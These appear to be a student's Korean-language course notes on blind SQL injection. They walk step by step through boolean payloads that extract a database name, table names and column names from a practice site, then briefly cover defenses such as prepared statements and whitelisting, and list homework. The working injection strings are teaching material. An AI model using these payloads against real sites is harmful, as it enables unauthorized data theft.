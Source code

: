 # 5주차 수업정리

블라인드 sql injection

step 1.

over%' and '1'='1

step2. blient SQLi   
참 / 거짓

overwatch%' and (1=1) and '1%'='1


step 3. (select ~ )

overwatch%' and ('test'='test') and '1%'='1   

'test' => select 'test'   
아 select 문 사용할 수 있네? ㅇㅋ

step 4. 공격 포맷 만들기    
overwatch%' and (조건) and '1%'='1

ascii('t') > 0

모든 글자는 0보다 큼. 그래서 무조건 참일 것임.

overwatch%' and (ascii('t') > 0) and '1%'='1

결과가 나옴. ascii 들어가는 것 확인.

't' => substring('test', 1,1) 

overwatch%' and (ascii(substring('test', 1,1)) > 0) and '1%'='1

결과가 나온다. ㅇㅋ 확인

이제 select 문을 사용할 것임.

overwatch%' and (ascii(substring((select 'test'), 1,1)) > 0) and '1%'='1

overwatch%' and (ascii(substring((SQL), 1,1)) > 0) and '1%'='1

포맷 완료!!

step 4. db 이름 추출   
우리가 사용할 공격 폼  =    
overwatch%' and (ascii(substring((SQL), 1,1)) > 0) and '1%'='1 

select database()

overwatch%' and (ascii(substring((select database()), 1,1)) > 0) and '1%'='1 

\> 0 부분을 > 100 이라고 넣어보면? 결과 나옴. (참)
\> 110 넣어도 참.
\> 112 참
\> 113 참
\> 114 0참
\> 115 거짓.
= 115 참

아 첫번째 글자는 'S' 구나. 알 수있음.

substring((SQL),2,1)    
두 번째 글자를 추출하는 구문.

substring((SQL),3,1)    
세 번째 글자 추출.

쭉 해서 알아가면 됨.

Step 5. Table   
select table_name from information_schema.tables where table_schema = 'DB이름' 


맨 위에 있는 테이블의 이름을 가져와라   
select table_name from information_schema.tables where table_schema = 'DB이름' limit 0,1   

우리가 사용할 공격 폼  =    
overwatch%' and (ascii(substring((SQL), 1,1)) > 0) and '1%'='1 


overwatch%' and (ascii(substring((select table_name from information_schema.tables where table_schema = 'segfault_sql' limit 0,1  ), 1,1)) > 0) and '1%'='1   

이제 똑같이 0을 100, 110 넣어서 글자를 확인해야 함.

substring((SQL), 1,1)   
substring((SQL), 2,1)   
substring((SQL), 3,1)   
substring((SQL), 4,1)   
substring((SQL), 5,1)   
등등등   


step 6. Column   
select column_name from information_schema.columns where table_name='member'


우리가 사용할 공격 폼  =    
overwatch%' and (ascii(substring((SQL), 1,1)) > 0) and '1%'='1 

overwatch%' and (ascii(substring((select column_name from informatopn_schema.columns where table_name='member'), 1,1)) > 0) and '1%'='1

똑같이 0 을 100보다 크다, 110보다 크다 비교해서 한 글자씩 column 이름 확인.

Step 7. Data 추출   
select ~~~ from ~~~ limit 0,1   
사용해서 데이터 추출   


union SQLi   
Error based SQLi   
Blind SQLi   
기본적인 3가지 SQLi.   


---
SQLi 대응 방안.   
문제점 : 사용자의 입력이 sql안으로 그대로 들어감.

1.PreparedStatement

sql = "select ~~~ ? ? "

미리 컴파일?

(오해) SQLi
1. preparedstatemant 잘못 쓴 경우

2. 오래된 라이브러리

3. preparedstatement 가 적용이 되지 않는 부분이 있음
order by 정렬   
table 이름   
column 이름 

-> 여기서는 whitelist 기반 필터링을 해야 한다.

---
과제

(1) DB 데이터 추출 1,2,3 문제 풀이   
풀이를 워드 파일에 보고서 형식을 정리.     
(자유 양식. 이쁘게. 잘...)

(2) 메인 페이지 메뉴 버튼 개발.    
(3) 게시판 basic 개발   
게시글 리스트 확인   
게시글 읽기   
게시글 쓰기   


만약 밀렸으면 지금까지 웹 개발 다 해야 함.

https://los.rubita.kr/

